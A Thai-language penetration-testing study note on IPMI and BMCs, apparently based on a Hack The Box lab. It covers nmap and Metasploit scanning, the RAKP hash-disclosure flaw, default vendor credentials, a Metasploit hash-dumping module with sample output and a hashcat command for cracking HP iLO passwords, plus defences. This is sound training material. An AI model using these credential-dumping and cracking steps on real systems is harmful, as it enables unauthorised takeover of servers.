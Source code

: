 # อธิบาย IPMI เป็นภาษาไทย

**Intelligent Platform Management Interface (IPMI)** คือชุดมาตรฐานสำหรับระบบจัดการฮาร์ดแวร์ที่ใช้ในการบริหารและตรวจสอบระบบคอมพิวเตอร์ มันทำงานเป็นระบบย่อยที่แยกออกมาโดยอิสระ ไม่ขึ้นกับ BIOS, CPU, firmware หรือระบบปฏิบัติการหลักของเครื่อง

## ความสามารถหลัก

IPMI ช่วยให้ผู้ดูแลระบบสามารถจัดการและตรวจสอบเครื่องคอมพิวเตอร์ได้แม้ในสถานการณ์ที่:
- เครื่องปิดอยู่
- ระบบไม่ตอบสนอง
- ระบบล้มเหลว

มันเชื่อมต่อโดยตรงกับฮาร์ดแวร์ผ่านเครือข่าย โดยไม่จำเป็นต้อง login เข้าระบบปฏิบัติการ

## การใช้งานทั่วไป

**IPMI มักถูกใช้ใน 3 กรณี:**
- แก้ไขการตั้งค่า BIOS ก่อนที่ระบบปฏิบัติการจะบูต
- เมื่อเครื่องปิดสนิท
- เข้าถึงเครื่องหลังจากระบบล้มเหลว

**สามารถตรวจสอบได้:**
- อุณหภูมิระบบ
- แรงดันไฟฟ้า
- สถานะพัดลม
- แหล่งจ่ายไฟ
- ข้อมูล inventory
- บันทึกฮาร์ดแวร์

## ส่วนประกอบสำคัญ

- **BMC (Baseboard Management Controller)** - ตัวควบคุมหลักของ IPMI
- **ICMB (Intelligent Chassis Management Bus)** - อินเทอร์เฟซสำหรับสื่อสารระหว่างแชสซี
- **IPMB (Intelligent Platform Management Bus)** - ส่วนขยายของ BMC
- **IPMI Memory** - จัดเก็บข้อมูลต่างๆ เช่น system event log
- **Communications Interfaces** - อินเทอร์เฟซสำหรับการสื่อสาร

## ข้อมูลทางเทคนิค

- **Port:** 623 UDP
- **BMC ยอดนิยม:** HP iLO, Dell DRAC, Supermicro IPMI
- **พัฒนาโดย:** Intel (ปี 1998)
- **รองรับโดย:** บริษัทฮาร์ดแวร์กว่า 200 ราย

## ความสำคัญด้านความปลอดภัย

การเข้าถึง BMC เท่ากับได้สิทธิ์เกือบเท่ากับการเข้าถึงเครื่องแบบกายภาพ เพราะสามารถ:
- ตรวจสอบระบบ
- รีบูต/ปิดเครื่อง
- ติดตั้งระบบปฏิบัติการใหม่
- เข้าถึงเมนบอร์ดโดยตรง

จากตัวอย่าง Nmap scan ที่แสดงไว้ สามารถใช้คำสั่งนี้เพื่อตรวจสอบ IPMI service:

```bash
sudo nmap -sU --script ipmi-version -p 623 [เป้าหมาย]
```
```
Watunyoo@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

# ช่องโหว่และวิธีโจมตี IPMI (ต่อจากข้อความก่อนหน้า)

## การตรวจสอบด้วย Metasploit

นอกจาก Nmap แล้ว เรายังสามารถใช้ Metasploit module เพื่อสแกนหา IPMI:

```bash
use auxiliary/scanner/ipmi/ipmi_version
set rhosts [เป้าหมาย]
run
```

## รหัสผ่านเริ่มต้นที่พบบ่อย

ผู้ดูแลระบบมักลืมเปลี่ยนรหัสผ่านเริ่มต้น ซึ่งเป็นช่องโหว่สำคัญ:

| ผลิตภัณฑ์ | Username | Password |
|----------|----------|----------|
| Dell iDRAC | root | calvin |
| HP iLO | Administrator | สุ่ม 8 ตัวอักษร (ตัวเลข+ตัวพิมพ์ใหญ่) |
| Supermicro IPMI | ADMIN | ADMIN |

## ช่องโหว่ร้ายแรง: RAKP Protocol Flaw

**ปัญหาหลัก:** IPMI 2.0 มีช่องโหว่ในโปรโตคอล RAKP ที่ทำให้:

- **ระหว่างการ authentication** เซิร์ฟเวอร์จะส่ง salted SHA1 หรือ MD5 hash ของรหัสผ่านมาให้ client **ก่อน**ที่จะยืนยันตัวตน
- สามารถดักจับ password hash ของ**ผู้ใช้ทุกคน**ที่มีอยู่ใน BMC
- นำ hash ไปแคร็กแบบ offline ได้ด้วย Hashcat mode 7300

### วิธีแคร็กรหัสผ่าน HP iLO

สำหรับรหัสผ่านเริ่มต้นของ HP iLO (8 ตัวอักษร: ตัวเลข+ตัวพิมพ์ใหญ่):

```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

## การดึง Password Hash ด้วย Metasploit

```bash
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts [เป้าหมาย]
run
```

**ตัวอย่างผลลัพธ์:**
```
[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000...
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
```

Module นี้จะ:
- ดึง hash ออกมาอัตโนมัติ
- พยายามแคร็กด้วย wordlist ทั่วไป
- บันทึกผลในรูปแบบ Hashcat หรือ John the Ripper

## ทำไมช่องโหว่นี้อันตราย?

**ไม่มีวิธีแก้ไขโดยตรง** เพราะเป็นส่วนหนึ่งของข้อกำหนด IPMI specification เอง

### วิธีป้องกัน:
- ใช้รหัสผ่านที่ยาวและซับซ้อนมาก
- แบ่งแยก network segment เพื่อจำกัดการเข้าถึง BMC
- ตรวจสอบว่าไม่มีการใช้รหัสผ่านซ้ำกับระบบอื่น

## ความเสี่ยงในโลกจริง

จากประสบการณ์การทดสอบเจาะระบบ:
- IPMI พบได้บ่อยมากในการประเมินส่วนใหญ่
- มักพบรหัสผ่านที่แคร็กได้ถูกนำไปใช้ซ้ำในระบบอื่น
- เคยพบกรณีที่หลังจากแคร็ก IPMI hash ได้แล้ว สามารถ SSH เข้าเซิร์ฟเวอร์สำคัญหลายเครื่องในฐานะ root
- ได้สิทธิ์เข้า web management console ของเครื่องมือ network monitoring ต่างๆ

## สรุป

**IPMI ควรอยู่ในรายการตรวจสอบทุกครั้ง** ในการทดสอบเจาะระบบภายใน เพราะ:
- เข้าถึง BMC ได้ = ความเสี่ยงสูงมาก
- มักพบรหัสผ่านเริ่มต้นหรือรหัสผ่านอ่อน
- อาจนำไปสู่การเข้าถึงระบบอื่นได้หากมีการใช้รหัสผ่านซ้ำ
- สามารถควบคุมเซิร์ฟเวอร์ได้อย่างสมบูรณ์

![alt text](image-20.png)

![alt text](image-19.png)